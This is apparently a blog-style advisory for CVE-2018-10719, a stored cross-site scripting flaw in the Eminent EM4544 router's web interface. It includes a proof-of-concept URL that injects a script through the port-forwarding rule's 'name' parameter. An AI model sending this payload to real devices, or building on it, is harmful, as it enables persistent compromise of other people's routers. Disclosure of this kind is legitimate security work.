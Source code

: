 ```yaml
---
layout: post
title:  "Eminent router mixed XSS and password reset issue"
date:   2019-09-14 11:33:37 +0100
categories: 0day
---
```


# CVE-2018-10719

[Description]

An issue was discovered on Eminent EM4544 9.10 devices.
Stored Cross-Site-Scripting has been found on the web interface. The
&quot;timepro.cgi&quot; endpoint allows injections of JavaScript through the
&quot;name&quot; GET parameter. The injection is stored as part of a
port-forwarding rule and therefore it will persist after system
restart.

------------------------------------------

[Additional Information]

PoC link: http://192.168.8.1/cgi-bin/timepro.cgi?tmenu=natrouterconf&amp;
smenu=portforward&amp;
act=add_pf&amp;
nf_rule_count=1&amp;
rule_index=&amp;
rule=5&amp;
sel_server=0&amp;
name=&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;&amp;
os_ip1=192&amp;
os_ip2=168&amp;
os_ip3=8&amp;
os_ip4=34&amp;
protocol=tcp&amp;
i_port1=1&amp;
i_port2=1&amp;
o_port1=1&amp;
o_port2=1

------------------------------------------

[Vulnerability Type]

Cross Site Scripting (XSS)

------------------------------------------

[Vendor of Product]

Eminent

------------------------------------------
